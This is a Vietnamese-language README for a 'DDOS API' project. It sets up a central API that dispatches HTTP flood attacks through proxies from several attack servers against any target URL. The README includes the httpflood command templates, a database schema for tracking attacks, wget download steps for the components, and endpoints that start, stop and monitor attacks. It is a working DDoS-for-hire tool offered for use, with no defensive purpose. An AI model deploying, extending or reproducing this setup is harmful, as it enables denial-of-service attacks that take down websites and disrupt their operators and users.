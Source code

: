 # DDOS API

- Cảm ơn https://github.com/DauDau432

> API này rất an toàn và nhanh chóng (mất 2 lần ping giữa API và phần phụ trợ, tức là ping là 60ms, sẽ chỉ mất 120ms để khởi động cuộc tấn công)
>
> Ưu điểm hơn bản v2 có thể xem được status quản lý và dừng được toàn bộ các cuộc tấn công của tất cả máy chủ đang chạy

## Yêu cầu

- NodeJS 14+
- MariaDB (hoặc MySQL)

## Cấu hình

### Update `servers.json`

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 8888
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 8888
    }
}
```

### Update `commands.json`

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

### Update `settings.json`

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 10,
    "api_port": 8888
}
```

### Update `client.js`

```js
const socket_port = 8888; // cổng API
const socket_token = "SECRET_TOKEN"; // mã thông báo bí mật của bạn để bảo vệ kết nối TCP
const allowed_ips = ['1.1.1.1']; // IP máy chủ API
```

## Thiết lập cơ sở dữ liệu

Tạo database

```sql
CREATE DATABASE manager;

use manager;
```

Tạo bảng

```sql
CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

***Xử lý lỗi từ chối kết nối***

1 Truy cập MariaDB: Đăng nhập vào máy chủ chứa cơ sở dữ liệu MariaDB bằng tài khoản có quyền quản trị. Bạn có thể sử dụng lệnh sau để đăng nhập vào MariaDB:

```mysql -u root -p```

2 Thiết lập quyền truy cập cho máy chủ của bạn: MariaDB sử dụng kiểm tra quyền truy cập dựa trên địa chỉ IP. Để cho phép máy chủ của bạn kết nối, bạn cần cấp quyền cho địa chỉ IP của máy chủ đó.

```GRANT ALL PRIVILEGES ON *.* TO 'tên_tài_khoản'@'địa_chỉ_IP_máy_chủ' IDENTIFIED BY 'mật_khẩu';```

Trong đó:

`tên_tài_khoản` là tên tài khoản truy cập MariaDB.

`địa_chỉ_IP_máy_chủ` là địa chỉ IP của máy chủ cần kết nối.

`mật_khẩu` là mật khẩu của tài khoản.

Lưu ý rằng bạn cần phải thay thế các giá trị này bằng thông tin của bạn.

3 Làm mới quyền truy cập: Sau khi bạn đã thay đổi quyền, hãy làm mới quyền để áp dụng thay đổi:
```FLUSH PRIVILEGES;```

4 thoát

```exit;```

## Cài đặt

### API Server

```
wget https://raw.githubusercontent.com/pmtpro/ddos-api/main/api.js
wget https://raw.githubusercontent.com/pmtpro/ddos-api/main/commands.json
wget https://raw.githubusercontent.com/pmtpro/ddos-api/main/settings.json
wget https://raw.githubusercontent.com/pmtpro/ddos-api/main/servers.json
```

Chạy lệnh

```sh
npm i express mysql2
```

### DDOS SERVER

```
wget https://raw.githubusercontent.com/pmtpro/ddos-api/main/client.js
```

## khởi động

API server

```
screen -S APIv3 -dm node api.js && screen -r APIv3
```

DDOS server

```
screen -S CLIENT -dm node client.js && screen -r CLIENT
```

## Proxy ngược

***Nên tạo proxy ngược bằng Nginx để sử dụng API của bạn:***

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:8888/api;
    }
}
```

Thay thế `'http://backend:3000/api'` bằng IP máy chủ API của bạn

## Sử dụng API

Gửi yêu cầu tới API bằng các trường bắt buộc

`http://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API bằng ID tấn công

`http://api.yourdomain.com/api/stop?attack_id=[id]`

Bạn cũng có thể xem tất cả các cuộc tấn công đang diễn ra và việc sử dụng máy chủ bằng cách gửi yêu cầu tới API

`http://api.yourdomain.com/api/status`

Bạn cũng có thể dừng tất cả các cuộc tấn công gửi yêu cầu tới API

`http://api.yourdomain.com/api/stop_all`
